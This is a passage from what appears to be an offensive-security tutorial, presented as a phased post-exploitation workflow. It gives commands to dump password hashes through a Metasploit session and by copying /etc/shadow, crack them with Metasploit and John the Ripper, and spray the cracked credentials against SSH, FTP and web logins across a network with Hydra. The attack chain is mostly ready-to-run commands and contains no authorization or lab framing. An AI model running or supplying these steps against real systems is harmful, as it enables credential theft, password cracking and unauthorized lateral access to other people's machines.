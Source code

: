 **What This Gives You:**
- Initial foothold on target system
- Understanding of system architecture and users
- Foundation for credential harvesting operations
- Session management for sustained access

#### **Phase 2: Comprehensive Hash Extraction**
```bash
# Extract password hashes using multiple methods
use post/linux/gather/hashdump
set SESSION 1
exploit

# Alternative manual extraction if needed
shell
cat /etc/passwd > /tmp/passwd_file
cat /etc/shadow > /tmp/shadow_file
unshadow /tmp/passwd_file /tmp/shadow_file > /tmp/combined_hashes.txt
```

**Integration Benefits:**
- **Multiple Extraction Methods:** Automated and manual approaches
- **Comprehensive Coverage:** All user accounts on compromised system
- **Backup Strategies:** Alternative methods when primary fails
- **File Management:** Organized storage for analysis

#### **Phase 3: Advanced Hash Analysis and Cracking**
```bash
# Automated cracking with Metasploit
use auxiliary/analyze/crack_linux
set SHA512 true
set CUSTOM_WORDLIST /usr/share/wordlists/rockyou.txt
run

# Manual analysis for advanced cases
for hash in $(cat hash_file.txt); do
    echo "Processing: $hash"
    hashid "$hash"
    john --format=auto --wordlist=rockyou.txt "$hash"
done
```

### **🔧 Integration with Credential Testing Tools:**

#### **Using Cracked Passwords with Hydra:**
```bash
# After successful hash cracking, compile credential list
john --show hash_file.txt | cut -d: -f1,2 > credentials.txt

# Test SSH access across network
hydra -C credentials.txt ssh://target_range

# Test FTP services
hydra -C credentials.txt ftp://target_range

# Test web authentication
hydra -C credentials.txt http-get://target_ip/admin/
```
